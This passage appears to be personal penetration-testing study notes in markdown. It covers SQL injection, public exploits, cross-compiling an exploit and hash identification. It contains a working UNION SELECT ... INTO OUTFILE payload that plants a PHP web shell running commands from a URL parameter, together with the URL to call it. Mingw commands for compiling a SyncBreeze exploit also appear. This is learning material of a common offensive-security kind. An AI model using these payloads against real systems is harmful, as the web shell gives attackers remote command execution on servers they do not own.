 NOTE: For this attack to work, the file location must be writable to the OS user running
the database software.

UNION SELECT SQL keywords to include a single PHP line into the first column and save it as **webshell.php** in a writable web folder
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE
"/var/www/html/tmp/webshell.php" -- //
```
NOTE: try other directories like html or other that you have found out via Directory Enumeration

To access it:
```
http://$ip:$port/tmp/webshell.php?cmd=id
```
# Initial Access

## Public Exploits

user repository:
```
https://github.com/offensive-security
```

Update exploitdb:
```
sudo apt update && sudo apt install exploitdb
```

Find something offline :
```
searchsploit words about the exploit
```
## Fixing Exploits
**Read** the code first and then **modify it**!

Cross compile:
```
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
```
NOTE: There was an error with the example and then, the option `-lws2_32` was added in order to compile it.

For a 64-bit application:
```
x86_64-w64-mingw32-gcc file.c -o file.exe
```

## Antivirus Evasion

## Password Attack

Which hash it is?
```
hashid file.hash
```

